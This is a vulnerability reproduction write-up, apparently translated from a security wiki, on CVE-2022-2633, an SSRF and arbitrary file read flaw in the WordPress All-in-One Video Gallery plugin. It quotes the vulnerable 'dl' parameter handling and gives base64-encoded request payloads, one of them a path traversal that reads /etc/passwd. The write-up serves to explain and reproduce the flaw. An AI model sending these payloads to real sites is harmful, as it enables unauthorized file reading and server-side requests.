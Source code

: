 # WordPress All-in-One Video Gallery video.php Arbitrary file reading vulnerability CVE-2022-2633

## Vulnerability Description

WordPress All-in-One Video Plugin Gallery video.php file has SSRF and arbitrary file reading vulnerability. The attacker reads any file by sending a specific request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WordPress All-in-One Video Gallery  <= 2.6.0</span>

## Plugin Name

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">All-in-One Video Gallery</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip</span>

## Vulnerability reappears

Compare the files that are fixed to find the files with vulnerabilities wp-content/plugins/all-in-one-video-gallery/public/video.php

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665396901441-051cdcb4-9932-48f7-96f7-b57aa55b37b0.png)

Here, the dl parameter is received. When the dl parameter is not a numeric type, the parameter will be decoded and passed to base64.

```sql
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665398476539-d7b73586-47fb-49ac-aefc-75518d40abf3.png)

When https:// or https:// does not exist in the passed parameter, the value of the parameter $formatted_path changes

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665400025228-ec8b2210-1683-4f95-b05d-085338323586.png)

When $formatted_path is url, an echo can be obtained by passing in the target URL encoded by base64.

```sql
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665400131718-e35e3a69-9fef-4717-b22c-25e07f659dac.png)

Looking at the last fragment of the code, there is a vulnerability to read any file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665400190046-5f6608e0-f8d6-4291-ba23-9d468a95ac46.png)

```sql
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665400254761-b7c390f4-6412-4104-a806-856aabf21e98.png)